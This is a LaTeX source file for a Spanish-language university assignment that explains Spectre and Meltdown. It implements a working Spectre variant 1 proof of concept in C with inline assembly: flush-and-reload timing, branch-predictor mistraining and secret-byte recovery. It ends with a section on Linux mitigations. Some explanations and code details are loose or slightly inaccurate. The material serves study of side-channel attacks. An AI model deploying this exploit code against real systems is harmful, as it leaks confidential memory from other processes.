%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Short Sectioned Assignment
% LaTeX Template
% Version 1.0 (5/5/12)
%
% This template has been downloaded from:
% http://www.LaTeXTemplates.com
%
% Original author:
% Frits Wenneker (http://www.howtotex.com)
%
% License:
% CC BY-NC-SA 3.0 (http://creativecommons.org/licenses/by-nc-sa/3.0/)
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%----------------------------------------------------------------------------------------
%	PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[paper=a4, fontsize=11pt]{scrartcl} % A4 paper and 11pt font size
\usepackage[utf8]{inputenc}

%\usepackage{fourier} % Use the Adobe Utopia font for the document - comment this line to return to the LaTeX default
\usepackage[spanish,es-tabla]{babel} % English language/hyphenation
\usepackage{graphicx} % Required to insert images
\usepackage{listings} % Required for code insertions
\usepackage{sectsty} % Allows customizing section commands
\usepackage[T1]{fontenc} % Cool font
\usepackage[variablett]{lmodern} % Cool font
\usepackage{xcolor} % required for \color
\allsectionsfont{\normalfont\scshape} % Make all sections the default font and small caps
\renewcommand\thesubsection{\Alph{subsection}}
\usepackage{fancyhdr} % Custom headers and footers
\pagestyle{fancyplain} % Makes all pages in the document conform to the custom headers and footers
\fancyhead{} % No page header - if you want one, create it in the same way as the footers below
\fancyfoot[L]{} % Empty left footer
\fancyfoot[C]{} % Empty center footer
\fancyfoot[R]{\thepage} % Page numbering for right footer
\renewcommand{\headrulewidth}{0pt} % Remove header underlines
\renewcommand{\footrulewidth}{0pt} % Remove footer underlines
\setlength{\headheight}{13.6pt} % Customize the height of the header
\setlength{\parindent}{4em} % Indentation of pargrafs
\setlength{\parskip}{1em} % Space between paragrafs
%\numberwithin{equation}{section} % Number equations within sections (i.e. 1.1, 1.2, 2.1, 2.2 instead of 1, 2, 3, 4)
%\numberwithin{figure}{section} % Number figures within sections (i.e. 1.1, 1.2, 2.1, 2.2 instead of 1, 2, 3, 4)
%\numberwithin{table}{section} % Number tables within sections (i.e. 1.1, 1.2, 2.1, 2.2 instead of 1, 2, 3, 4)

\setlength\parindent{0pt} % Removes all indentation from paragraphs - comment this line for an assignment with lots of text

\lstdefinestyle{myCustomStyle}{
  language=C,
  basicstyle=\ttfamily,
  keywordstyle=\color{blue}\ttfamily,
  numbers=left,
  stepnumber=1,
  numbersep=10pt,
  tabsize=4,
  showspaces=false,
  showstringspaces=false
}


%----------------------------------------------------------------------------------------
%	TITLE SECTION
%----------------------------------------------------------------------------------------

\newcommand{\horrule}[1]{\rule{\linewidth}{#1}} % Create horizontal rule command with 1 argument of height


\title{
\normalfont \normalsize
\textsc{Universidad de Valladolid} \\ [25pt] % Your university, school and/or department name(s)
\horrule{0.5pt} \\[0.4cm] % Thin top horizontal rule
\huge Trabajo ESO \\ % The assignment title
\horrule{2pt} \\[0.5cm] % Thick bottom horizontal rule
}

\author{Victor Vaquero Martinez} % Your name

\date{\normalsize\today} % Today's date or a custom date


\begin{document}

\maketitle


%----------------------------------------------------------------------------------------
%	PROBLEM 1
%----------------------------------------------------------------------------------------




\section{Spectre y Meltdown, vulnerabilidades}

A pesar de su nombre, en total son tres variantes todas reaccionadas entre si, dos spectre, una meltdown.

Las tres se centran el la posibilidad de ejecutar instrucciones “virtuales” que no se llevarían a cabo en una maquina von-neumann. En un procesador normal, esta ejecución especulativa usualmente se deshace para continuar de manera normal, pero debido al diseño actual de los procesadores actuales, esto provoca cambios en el estado que permiten obtener información confidencial o que de otro modo serian de imposible acceso.

A pesar de la gravedad de estas vulnerabilidades, hasta la fecha no se conocen ataques que se aprovechen de estas capacidades, aunque existen pruebas de concepto. Ademas desde una perspectiva de seguridad, cualquier ataque a una organizacion o entidad necesitaria de permisos de ejecuccion en el sistema, con lo cual en la practica el risgo de sufrir un ataque es medio o bajo.

\subsection{Flush and reload:}

En la practica, todos las implementaciones usan de un ataque de canal lateral a las caches, sobre todo en particular  flush and reload debido a su gran resolución y bajo ruido \cite{flushreload}. 


De manera simplificada este usa los tiempos de acceso a la cache para obtener información. En concreto limpia la cache ( la instrucción \textit{clflush} ) linea a linea, para luego dejar que un tercero acceda a un dato propio, el cual se quedara en la cache para acceso rápido. De esta manera, midiendo la diferencias de tiempo de acceso ( rápido si esta en cache, muy lento si se trae de memoria) a dicho dato, se puede saber a que a accedido el programa victima.


Esto se aprovecha ademas de dos características de las jerarquías de caches actuales, primero que se organizan en varios niveles y el ultimo, la LLC (last level cache), se comparte entre núcleos y por tanto es accesible a todos los procesos en ejecución \cite{patterson}. Ademas en la actualidad las cache son “write-through”, lo cual significa que todo dato en niveles inferiores esta ademas en los superiores \cite{patterson} permitiendo observar y manipular datos en cache de otros procesos en ejecución .


Cabe mencionar que existen muchas posibilidades de ataques laterales, tanto sobre la cache como sobre otras unidades del procesador ( por ejemplo la ALU ), pero este es el mejor conocido en la actualidad.


\subsection{ Spectre (Variantes 1 y 2)}

Estas dos son las consideradas mas dañinas pues afectan a la mayoria de los procesadores ahora en el mercado, pues solo se aprovechan de una característica muy común de todos los procesadores modernos actuales, la ejecución especulativa . 

\subsubsection{Speculative bounds-check bypass ( Variante 1 ) }

Esta vulnerabilidad en particular se centra en aprovechar la ejecucion especulativa de ramas. Cuando se produce un fallo del predictor (Branch Target Predictor) en un salto condicional ( el típico \textit{if} ) este ejecuta instrucciones que de otra manera no se habrian realizado. Estas pueden dejar tras de si cambios en el estado del microprocesador no previstos, por ejemplo en la cache, los cuales se pueden medir a traves de algoritmos como \textit{flush and reload} \cite{spectre}.

Mas adelante se explicara en mayor detalle.



\subsubsection{Envenenamiento del predictor de objetivos de salto ( Variante 2 ) }

Al igual que la otra variante, esta se aprovecha de la ejecucion especulativa de ramas, pero a diferencia de la otra, esta no se centra en la especulacion de si el salto se toma o no, sino en a donde podria llevar dicho salto. Esto es debido a que en un salto indirecto, en el cual el valor de destino no se encuentra en el momento en un registro o en la cache, seria muy costoso esperar a que este fuera traído para averiguar el destino del salto. El predictor asume que los objetivos del futuro serán similares a los del pasado e intenta acertar cual sera el valor de destino,  usando un \textit{Brach target buffer} \cite{patterson}. Si el predictor falla simplemente deshace los cambios hasta dejar el procesador en el estado previo a la ejecución de estas instrucciones virtuales.
 

El ataque se aprovecha de esto manipulando el predictor y haciéndole ejecutar de manera especulativa las instrucciones que quiera el atacante para aprovecharse de los efectos secundarios producidos, exactamente como en la anterior variante. Un primer muro que el atacande debe sobrepasar es el hecho que las instrucciones especulativas que puede hacer ejecutar al programa victima estan por necesidad en su espacio de direcciones.
Por esto, es necesario un profundo conocimiento del los archivos binarios de la victima.

Ademas se necesita de un canal secundario accesible al atacante, lo cual se puede complicar si no existe memoria compartida entre ambos programas. En el caso de que existiera, de nuevo estos efectos secundarios no esperados se podrian medir y aprovechar para obtener datos a los cuales el programa victima tiene acceso pero no el atacante\cite{spectre}.


\subsection{Meltdown\cite{meltdown} ( Variante 3 ) }

Mientras que las dos primeras variantes se centran en obtener datos a los que un programa victima tiene acceso, este consigue sacar información del kernel que teóricamente solo seria posible obtener si el programa se ejecutara en modo privilegiado. 

Primero esta vulnerabilidad se aprovecha no de la ejecucion especulativa sino de la ejecucion desordenada, lo cual en casos especificos, como cuando se produce un \textit{sigfault} este no conoce de manera inmediata y las instrucciones consecutivas continuan ejecutandose sin problema. Al igual que en las otras variantes, estas instrucciones virtuales provocan efectos secundarios no previstos.

Ademas se basa en que la confirmación de privilegios de lectura de datos es relativamente lenta a la ejecución normal del proceso, y por tanto algunos procesadores cuando ejecutan instrucciones de manera desordenada simplemente asumen que si se tienen dichos privilegios, los cuales se comprueban de manera asincrona de manera mas lenta.

Esto provoca que durante dichas instrucciones virtuales se puedan realizan accesos a paginas que pertenecen al kernel y con una estratagema similar a las anteriores variantes, provocar modificaciones al estado de la cache medibles luego en modo usuario.
Debido a el fallo tan especifico de comprobación de privilegios necesario para explotar esta vulnerabilidad, solo se han visto afectados algunos procesadores de Intel

Este ataque ademas es posible debido a que por eficiencia toda las memoria del sistema y del kernel esta mapeada al las direcciones virtuales de todo proceso.


\subsubsection{Envenenamiento del buffer de saltos(Variante 1) en detalle:}

Primero se busca en el programa victima un trozo de código vulnerable, como este:

\begin{lstlisting}[frame=single, style=myCustomStyle ]

void getData(size_t offset){
    if(offset< array1_size)
        aux = array2[array1[offset]*CACHE_LINE_SIZE];
}


\end{lstlisting}


Una vez encontrado, se a de entrenar al predictor con accesos validos para que cuando le pasemos un dato fuera del rango, este incorrectamente prediga que la condición sera verdadera. 
Para que entre en acción el predictor es necesario sacar de la cache al limite usado en dicha condición.

Ahora, una vez sacado el segundo array ( el mas “exterior” ) por completo de la cache con \textit{\_\_mm\_\_clflush}, se accede al trozo de código con un valor de offset tal que sumado a la base del primer array, obtengamos un valor no accesible a nosotros ( pero si al programa victima ) deseado. Esto se aprovecha de la particular aritmética de punteros de \textit{C} que permite el uso de indices tanto negativos como positivos en arrays de manera que se acceda a virtualmente cualquier valor de la memoria\cite{cstandar}.


La clave esta en que aunque cuando el procesador se de cuenta del error  y vuelva todo hacia atrás, el valor deseado se habrá usado para traer un valor del segundo array al procesador, y en esto se habrá guardado en la cache. Si nosotros ahora medimos los tiempos de acceso a este array, el indice de aquel que estuviera en cache nos dirá que valor tenia el dato especulativamente traído.



\section{Implementación:}

Aunque las posibilidades de aplicación son extensas, dado que las tres vulnerabilidades son relativamente similares se ha decidido realizar la variante primera para tratar de demostrar la posibilidad de acceder a datos confidenciales, dando como conocido la posición en memoria de los datos que se quieren hallar. Si esto no fuera así, para aplicar la vulnerabilidad seria necesario un previo trabajo para averiguar dicha posición a través del mapeado en la cache \cite{yarom}. 

Una de las razones para esta elección es la mayor sencillez de aplicación de esta vulnerabilidad, pues el valor erróneo pasado al la función victima sera simplemente ignorado, sin embargo en el caso de \textit{Meltdown} es necesario el crear una función que capture la excepción usada o el uso de instrucciones especificas de ejecución en bloque de algunos procesadores \cite{meltdown}.


Nuestra elección de microprocesador es un i5 de Intel, con el conjunto de instrucciones x86. A continuación mostramos la información general de este sacada a través de la utilidad \textit{libcpuid}: 

\noindent\fbox{%
    \parbox{\textwidth}{%

CPU Info:\\
------------------
  vendor\_str : 'GenuineIntel'\\
  vendor id  : 0\\
  brand\_str  : 'Intel(R) Core(TM) i5-3210M CPU @ 2.50GHz'\\
  family     : 6 (06h)\\
  model      : 10 (0Ah)\\
  stepping   : 9 (09h)\\
  ext\_family : 6 (06h)\\
  ext\_model  : 58 (3Ah)\\
  num\_cores  : 2\\
  num\_logical: 4\\
  tot\_logical: 4\\
  L1 D cache : 32 KB \\
  L1 I cache : 32 KB\\
  L2 cache   : 256 KB\\
  L3 cache   : 3072 KB \\
  L4 cache   : -1 KB\\
  L1D assoc. : 8-way\\
  L2 assoc.  : 8-way\\
  L3 assoc.  : 12-way\\
  L4 assoc.  : -1-way\\
  L1D line sz: 64 bytes \\
  L2 line sz : 64 bytes\\
  L3 line sz : 64 bytes < -- Valor importante\\
  L4 line sz : -1 bytes\\
  SSE units  : 128 bits (non-authoritative)\\
  code name  : 'Ivy Bridge (Core i5)'\\
    }%
}

Lo mas importante en este caso es el tamaño de linea de la cache de \textit{64 bytes}, el cual es el bloque mínimo de trabajo de esta. 

\subsection{Flush and reload}

 El primer paso es conseguir una implementación funcional del \textit{flush and reload} con un ruido lo suficientemente bajo como para su uso practico.
Comenzamos para poder calibrar el método, midiendo el tiempo de acceso a un dato tanto cuando esta en cache como cuando se ha de traer en memoria.

Para manipular el estado de la cache usaremos la instrucción \textit{clflush} de dos métodos diferentes, primero directamente en ensamblador y luego a través de la librería de C \textit{x86intric.h} la cual nos permite un acceso mas cómodo a instrucciones singulares.


Ademas haremos gran uso de la instrucción \textit{rdstc} el cual devuelve en dos registros, eax y edx el numero de ciclos pasados desde el inicio del contador. Esto nos servirá como un cronometro de gran precisión.


La utilidad time se encargara de medir el tiempo que se tarda en traer a un registro el valor de una dirección de nuestra elección. Para conseguir la máxima eficiencia, lo realizamos por completo con ensamblador en linea, marcado por la palabra clave \textit{asm}, el cual no es estándar de C pero nos lo provee el compilador (gcc).

Para el siguiente código se a seguido el dialecto de \textit{AT\&T:}



\begin{lstlisting}[frame=single, style=myCustomStyle]


inline unsigned int time(void * adr){
    unsigned int time;
    asm volatile(
        "mfence\n\t"
        "lfence\n\t"
        "rdtsc\n\t"     //---Carga tiempo
        "lfence\n\t"
        //---Guarda valor en registro ebx
        "movl eax, ebx \n\t"  
        //---Carga la direccion a memoria
        "movb ([ADR]), dl \n\t" 
        "lfence\n\t"
        //---Carga tiempo
        "rdtsc\n\t" 
       //--Obten tiempo que a tardado el movl
        "subl ebx, eax \n\t" 
         // Output: tiempo--> porque sino el compilador
         // le da por usar ese registro
        : "=&a" (time)  
        :  [ADR] "c" (adr) //Input: Direccion
        : "ebx", "edx"
        );
    return time ;
}
\end{lstlisting}

Para la correcta funcionalidad del código, se usan diversas \textit{mfence} y \textit{lfence} que permite secuencializar la ejecución de la carga de datos, de manera que el tiempo medido con \textit{rdtsc} sea correcto, ademas de la palabra clave \textit{volatile} para asegurarnos de que el compilador no intenta optimizar el código.

Con esto podemos medir el tiempo medio de traída de datos, el cual aunque muy variable, ronda los 60-70 ciclos para datos en cache y los 300 ciclos para datos en memoria principal, aunque pueden ambos llegar a valores tan altos como 500 o 600 ciclos. Esto introduce complejidad en la medición que se soluciona realizando muchas muestras y realizando un promedio.

Antes de realizar el programa, para asegurarnos de que no existe ningún problema realizamos diversas pruebas de medición de datos y de limpieza de cache en la función \textit{pruebas\_cache}. Lo realizamos de manera progresiva, midiendo los resultados de usar diferentes offsets. Como esperábamos, a partir de 64 bytes no se empiezan a afectar las lecturas de unos datos a otras, lo cual resulta de ser esta el tamaño de linea de la cache.

Experimentamos ademas con dos sistemas de limpieza de memoria, uno completo antes de acceder al array y otro por linea cada vez que se accede a un dato. De nuevo por experimentación se decide que este segundo método produce un menor ruido, aunque la causa es desconocida.

Cabe destacar que para facilitar la experimentación en un principio hemos desconectado tanto el prefech de linea contigua de cache como el predictor general de Intel. Una vez re conectado observamos que un offset de 128 a 512 funciona de manera correcta, decidiendo por experimentación que 512 es el optimo.

Otros efectos relevantes observados en estos experimentos es la necesidad de añadir padding a los vectores, para que el acceso a otros datos no relacionados no afecten a las medidas, y la necesidad de inicializar con un valor cualquiera los arrays ya que el compilador optimiza retrasando su creación hasta la primera llamada a dichos datos\cite{cstandar}, lo cual provoca efectos impredecibles en la medición de tiempos.

\subsection{Branch poisoning}

    Una vez tenemos la capacidad de medir de manera precisa necesitamos engañar al predictor de salto para que crea que se toma el salto cuando no. Los detalles del funcionamiento de el predictor de Intel no son públicos pero se conocen ciertos detalles\cite{milenkovic} como que se compone de dos niveles, el nivel mas bajo mas simple y el segundo nivel un predictor dinámico mas sofisticado ( este tipo de predictores se llaman de torneo ). Sean como sean,de manera simplificada se han de basar en una combinación de un \textit{branch target buffer}, un \textit{brach prediction buffer} compuesto de un predictor de varios bits de tomado-no tomado y de predictores de saltos correlados, que mantienen la historia reciente de saltos\cite{patterson}.

Una estrategia simple para conseguir una predicción incorrecta es acceder de manera continua a datos validos y de manera aleatoria, una de cada cinco o seis veces acceder al dato fuera de rango. El acceso aleatorio evita a el stride predictor, que calcula la distancia de salto de los bucles y trae datos preventivamente. Esto combinado con la eliminación de cualquier salto que indique al procesador cuando estos datos corruptos serán usados permite la ejecución de la vulnerabilidad. Para eliminar los saltos se usa una mascara( \textit{mask} ) y simples operaciones con bits.

Codigo: 
\begin{lstlisting}[frame=single, style=myCustomStyle]

inline void misstrain(size_t index){
    int i,r;
    char mask;
     // Posicion relativa de los datos confidenciales
    size_t conf= (size_t)confidential_data - (size_t)array1;
    for(i=0;i<200;i++){
        r = rand() %32;
        mask = (r<5) * 255;
        r = (mask & (conf+index)) | (~mask & r); 
        _mm_clflush(&array1_size);
        _mm_mfence();
        _mm_lfence();
        getData(r);
        _mm_mfence();
        _mm_lfence();
    }

}
\end{lstlisting}

\subsection{Correccion de errores}

Una vez esta todo preparado solo queda realizar la medida. El problema es que debido a la variabilidad de los accesos a cache es imperativo la creación de un sistema de reducción del ruido. Esto se consigue a través de un conjunto de pruebas o intentos en el cual a cada vez se incrementa un contador si el tiempo es menor que cierta constante decidida de antemano ( \textit{THRESSHOLD} ), en este caso configurada experimentalmente a 80. 
Aquel indice que acabe con un mayor contador es el elegido. Se enseña ademas el siguiente mejor.


\begin{lstlisting}[frame=single, style=myCustomStyle]

void acceso_virtual(unsigned int datos[][LEVELS],
                    unsigned int * timing){
    int d,i,j,u,nj;
    unsigned int hits[BYTE];
    for(d=0;d<STR_SIZE;d++){
        for(j=0;j<BYTE;j++){
            hits[j] = 0;
            _mm_clflush(&array2[j*CACHE_LINE_SIZE]);
        }
        _mm_mfence();
        _mm_lfence();

        for(i=0;i<TRIES;i++){
            misstrain(d);
            for(j=0;j<BYTE;j++){
                //int nj = ord[j]; 
                nj = rand()%BYTE;
                int b = time(&array2[nj*CACHE_LINE_SIZE]);
                hits[nj] += (b< THRESSHOLD);
                _mm_clflush(&array2[nj*CACHE_LINE_SIZE]);
                //datos[nj] += b;
            }
    }
        for(u=0;u<LEVELS;u++) datos[d][u] = 1;
        for(j=1;j<BYTE-1;j++) 
            datos[d][0] = 
                hits[datos[d][0]]<hits[j] ? j : datos[d][0];
        timing[d] = hits[datos[d][0]];
        timing[STR_SIZE] = aux;
        for(u=1;u<LEVELS;u++) for(j=1;j<BYTE-1;j++) 
            datos[d][u] = (hits[datos[d][u]]<hits[j] &&
                     j != datos[d][u-1]) ? j: datos[d][u];
        
    }

}


\end{lstlisting}


\subsection{Resultado}

Como se observa el la imagen, se consigue sacar la frase al completo, aunque es necesario correr un par de veces el código para que no falle una o dos letras. Aun así es lo suficientemente robusto como para que estas aparezcan en segundo puesto.



\includegraphics[width=0.75\columnwidth]{foto} 

Otros datos incluidos son el numero de intentos y valor del contador de cada char.

\section{Remedios\cite{lwn}}

Hasta la fecha han sido propuestas e implementadas diversas soluciones a cada una de las variantes, con mejor o peor recibimiento, dado que en general cualquier parche sea software o hardware tiene la inevitable consecuencia de ralentizar la ejecución. 

En el kernel de linux las soluciones han sido las siguientes:

Las soluciónes para la primera variante consisten en, o detener la especulacion por completo a traves de \textit{lfence} ( muy poco eficiente ) o en el uso una macro de acceso a arrays que evita la especulación a traves de una mascara aplicada a la direccion objetivo que la limita dentro de los limites del array, es decir,  devuelve el valor correcto si esta dentro de el rango de direcciones validas pero cero en cualquier otro caso. Funciona ya que hasta ahora la especulacion de los procesadores se limita a las decisiones de control y no a los valores en si.

Para la segunda variante existen al igual dos sistemas diferentes, el primero a traves de IBRS (indirect branch restricted speculation) el cual limita la influencia de codigo en diferente nivel de privilegio sobre el predictor de saltos y el segundo se usa un \textit{retpoline} \cite{retpoline} el cual  no evita pero si redirige y controla la especulación a un objetivo seguro ( un ciclo vacio ). Esto se basa en un control sobre la cache del objetivo de retorno ( RSB return stack buffer ) la cual no necesariamente apunta al valor real objetivo de la llamada.
Este segundo metodo puede ser usado hasta arquitecturas Skylake a partir de la cual es necesario el uso del IBRS.


En el caso de Meltdown, un parche de seguridad anterior conocido como KASLR (Kernel Addres Space Layout Randomization) complica la aplicación de este en la practica, aunque existen maneras de circunvenirlo. La manera de remediarlo por completo es KPI (kernel page-table isolation) al principio nombrado como KAISER que consiste en separar las paginas de memoria en dos tablas independientes, una para modo usuario y otra para modo kernel. Hasta ahora todo estaba mapeado en el espacio virtual del proceso para una mayor velocidad y simplicidad.


\begin{thebibliography}{99}

\bibitem{patterson}
    \textit{Computer Architecture, A Quantitative Approach}

\bibitem{felix86}
  Felix Cloutier,
  \textit{Descripcion de ensamblador de x86},
  felixcloutier.com/x86/

\bibitem{meltdown}
    \textit{Meltdown},
    meltdownattack.com

\bibitem{spectre}
    \textit{Spectre Attacks: Exploiting Speculative Execution},
    spectreattack.com
\bibitem{flushreload}
    \textit{Flush and reload: a High Resolution, low noise, L3 Cache Side-Channel Attack},
\bibitem{googlezero}
    \textit{Blog grupo google project zero},
    googleprojectzero.blogspot.com.es/2018/01/reading-privileged-memory-with-side.html
\bibitem{gnu}
    \textit{Informacion general sobre ensamblador en c},
    gnu.org

\bibitem{cstandar}
    \textit{C99 Standar},
    Informacion sobre la implementacion de c

\bibitem{milenkovic}
    \textit{Demystifying Intel Branch Predictors }
\bibitem{yarom}
    \textit{Mapping the Intel Last-Level Cache}

\bibitem{lwn}
    \textit{LWN, news from the source},
    articulo de lwn.net/Articles/744287/

\bibitem{retpoline}
    \textit{Retpoline: Binary mitigation for branch-target-injection},
    blog de lwn.net

\end{thebibliography}

\end{document}
